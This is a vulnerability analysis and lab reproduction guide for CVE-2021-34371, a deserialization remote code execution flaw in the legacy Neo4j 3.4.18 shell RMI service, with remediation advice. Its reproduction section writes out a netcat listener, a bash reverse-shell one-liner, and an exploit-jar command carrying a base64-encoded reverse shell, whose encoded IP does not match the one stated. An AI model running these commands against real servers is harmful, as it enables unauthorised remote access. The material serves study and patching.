



# CVE-2021-34371 CWE-502 Neo4j RCE

## Vulnerability Background
- **Neo4j:** A powerful graph database. It uses a graph structure for data storage, with nodes representing entities and relationships representing relationships between nodes, and relationships carrying attributes. Neo4j excels at handling complex relationship data, enabling fast and efficient in-depth data queries and analysis. For example, in social network analysis, it can easily identify multi-layered relationships between people. It features high scalability, can handle massive amounts of data, and provides a rich query language like Cypher, making it easy for users to handle complex data operations. It is widely used in industries such as finance and telecommunications, providing strong support for data storage and analysis across various fields.
- **Neo4j Shell:** An interactive command-line interface for the Neo4j graph database, used for direct interaction and management with the database. It allows users to perform Cypher queries, manage database configuration and settings, and perform data import and export operations by entering commands. Neo4j Shell offers a lightweight approach that allows developers and administrators to quickly debug, test, and maintain databases.

## Vulnerability Mechanism
Neo4j enabled an old shell service in version 3.4.18, which included an RMI service. The RMI service allows remote calls to Java object methods and passes the object to the remote system for processing. Attackers can use `setSessionVariable` methods to pass in carefully constructed malicious objects, triggering deserialization to execute arbitrary code. The key issue is that Neo4j's Rhino 1.7.9 reliance on a known exploitable gadget chain that attackers can exploit to construct malicious objects.

## Vulnerability Location
Analysis of Neo4j-3.4.18 source code:

In the community/shell/src/main/java/org/neo4j/shell/impl/AbstractClient.java file, line 321 of the setSessionVariable function is to store an `Serializable` object in the session variable using the `setSessionVariable` method.

In this case, the problem arises with `Serializable` types of parameters, especially in the context of RMI services. RMI services inherently allow remote method calls, while `Serializable`-type objects typically involve serialization and deserialization, which are potential sources of security risk. If the `value` parameter passed in is a maliciously constructed Java object and triggers arbitrary code execution during deserialization, it will result in remote code execution (RCE).

```java
// AbstractClient.java Document, line 321
public void setSessionVariable( String key, Serializable value ) throws ShellException
{
    try
    {
        getServer().setSessionVariable( id, key, value );
    }
    catch ( RemoteException e )
    {
        throw ShellException.wrapCause( e );
    }
}
```

## Remediation
Upgrade to a supported Neo4j release that does not include the vulnerable legacy Neo4j Shell server, and migrate administrative workflows to `cypher-shell`. Disable the legacy shell by removing or disabling its `remote_shell_enabled`/shell-server configuration and block its listening port at the host and network firewalls.

If the component must temporarily remain installed, bind it to loopback, require access through a trusted administrative channel, and prevent untrusted clients from reaching the Java remoting endpoint. Do not treat Java serialization filters as the primary fix; removing the unsafe remote-deserialization surface is the reliable remediation.

## Affected Versions
Neo4j

- x to 3.4.18

## Environment Setup
Start the Docker environment, Neo4j version 3.4.18, enable Neo4j Shell port 1337, which uses the RMI protocol for communication

```txt
NIST:NVD   Base Score:9.8 CRITICAL  Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:neo4j:neo4j:3.4.18:*:*:*:community:*:*:*
```



## Vulnerability Reproduction
1. Use the nc command locally to listen to port 8889

```bash
   nc -lvp 8889
   ```

2. Build the payload to encode the attacking machine's IP and port of the bounced shell with Base64 code. Here, Docker's loopback address 172.17.0.1 is used

```bash
   bash -i >& /dev/tcp/172.17.0.1/8889 0>&1
   ```

```bash
   YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzg4ODkgMD4mMQ==
   ```

3. Enter the container command line, find the compiled EXP file rhino_gadget.jar in the EXP directory, and execute the EXP file

```bash
   docker exec -it neo4j-3.4.18 bash
   ```

```bash
   java -jar /EXP/rhino_gadget.jar rmi://127.0.0.1:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4xNTMvODg4OSAwPiYx}| {base64,-d}| {bash,-i}"
   ```



4. On the listening port, you can see that the shell bounced successfully, and the ls and whoami commands were executed successfully



## PoC Analysis
Integrating the EXP file into Rhino-based Gadget requires running in a Java 8 environment, compiling it using the mvn install command, and then rhino_gadget-1.0-SNAPSHOT-fatjar.jar it in the target directory

## References
https://nvd.nist.gov/vuln/detail/CVE-2021-34371

[CVE-2021-34371 Neo4j Shell Server deserialization vulnerability reappears – Zgao's blog](https://zgao.top/cve-2021-34371-neo4j-shell-server-反序列化漏洞复现/)

[CVE-2021-34371 Neo4j-Shell Vulnerability Reproduction - Nagishiro Kw - BlogGarden](https://www.cnblogs.com/Kawakaze777/p/18153842)

[Reproduced CVE-2021-34371 | Lyc's Blog](https://lycshub.github.io/2022/06/04/复现cve-2021-34371/)
